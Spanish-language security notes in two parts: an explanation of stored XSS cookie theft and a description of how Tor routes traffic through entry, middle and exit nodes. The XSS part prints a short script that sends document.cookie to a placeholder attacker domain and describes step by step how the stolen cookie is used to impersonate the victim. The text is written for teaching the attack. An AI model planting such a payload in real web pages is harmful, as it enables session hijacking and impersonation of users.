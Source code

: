 Otro ejemplo que suele conllevar el robo de <b>cookies mediante XSS</b>, otro de los ataques XSS más comunes en el que el atacante se hace pasar por la víctima enviando la cookie a su propio servidor de diferentes maneras, como por ejemplo ejecutar un script similar al siguiente del lado del cliente en el navegador de la víctima:

<b>

```
<script>

window.location="http://webmaligna.com/?cookie=" + document.cookie

</script>
```
</b>



La siguiente figura ilustra paso a paso un ataque XSS sencillo.
El atacante inyecta una carga útil en la base de datos del sitio web enviando un formulario vulnerable con contenido JavaScript malicioso.
La víctima solicita la página web al servidor web.
El servidor web sirve al navegador de la víctima la página con la carga útil del atacante como parte del cuerpo HTML.
El navegador de la víctima ejecuta el script malicioso contenido en el cuerpo HTML. En este caso, envía la cookie de la víctima al servidor del atacante.
El atacante sólo tiene que extraer la cookie de la víctima cuando la petición HTTP llega al servidor.
El atacante puede ahora utilizar la cookie robada de la víctima para suplantar su identidad.
Para saber más sobre cómo se llevan a cabo los ataques XSS, puede consultar un artículo titulado A comprehensive tutorial on cross-site scripting.


----------------------------------------------------


> El funcionamiento se basa en los siguientes elementos:

- <b>Tipo de comunicación</b>: la comunicación con la red Tor se establece mediante una ruta de comunicación más compleja que las conexiones normales a la hora de llegar al site al que se desea acceder, poniendo 3 nodos aleatorios de por medio.
- <b>Manejo de la comunicación</b>: la comunicación se maneja por capas, de modo que cada nodo solo tiene información de la capa inferior y superior a la propia, sin tener acceso a las capas de otros niveles (podrían ser el origen o el destino de la conexión), un tipo de arquitectura que dificulta que un monitoreo la conexión para poder llegar a identificar y localizar la conexión.
- <b>Tipos de servidores (nodos)</b>: En la red se dispone de <b>nodos de entrada</b>, el primer punto por donde pasa la información. Realmente, es el que conoce al IP del usuario que conecta a TOR, pero al utilizar el cifrado en varias capas, no se puede comprobar ni lo que se envía ni el destino final. A lo largo del viaje de los datos, estos pasan a través de <b>nodos intermedios</b>, puentes entre el nodo de entrada, otros nodos intermedios y el nodo de salida, donde no se obtiene ningún tipo de información sobre el usuario ni sobre el destino final de los datos. En el destino, el <b>nodo de salida</b> es el último punto en el proceso, el que realmente puede ver a qué destino se envían los datos, pero no sabe de dónde provienen... En conclusión los datos viajan cifrados mientras están en el circuito de la red Tor, así que ningún nodo puede saber la ruta completa de la conexión. 

<br>
<br>
